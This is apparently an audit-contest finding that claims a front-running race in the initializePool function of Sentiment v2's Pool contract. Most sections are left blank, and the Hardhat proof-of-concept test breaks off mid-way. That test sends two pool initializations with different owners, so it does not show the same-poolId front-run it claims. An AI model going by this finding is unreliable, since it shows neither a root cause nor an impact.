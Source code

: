 Polished White Coyote

High

# Pool Initialization Race Condition at initializePool in Pool contract

### Summary

Line: https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/Pool.sol#L562

The initializePool function is vulnerable to front-running, where an attacker precomputes the poolId and tries to initialize a pool with the same parameters before the legitimate transaction.

### Root Cause

_No response_

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

_No response_

### PoC

In the test folder, create a new test file named race-condition-test.js:
```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("Race Condition in initializePool", function () {
  let Pool, pool, owner, addr1, addr2;

  beforeEach(async function () {
    [owner, addr1, addr2] = await ethers.getSigners();
    Pool = await ethers.getContractFactory("Pool");
    pool = await Pool.deploy();
    await pool.deployed();
  });

  it("should demonstrate race condition in initializePool", async function () {
    const asset = "0x0000000000000000000000000000000000000001"; // Mock asset address
    const rateModelKey = ethers.utils.formatBytes32String("rateModelKey");

    // Prepare transactions to be sent simultaneously
    const tx1 = pool.connect(addr1).initializePool(addr1.address, asset, 1000, rateModelKey);
    const tx2 = pool.connect(addr2).initializePool(addr2.address, asset, 1000, rateModelKey);

    // Simulate race condition by sending both transactions at the same time
    const [receipt1, receipt2] = await Promise.all([tx1, tx2]);

    // Check if both transactions were mined
    console.log("Transaction 1 status:", receipt1.status);
```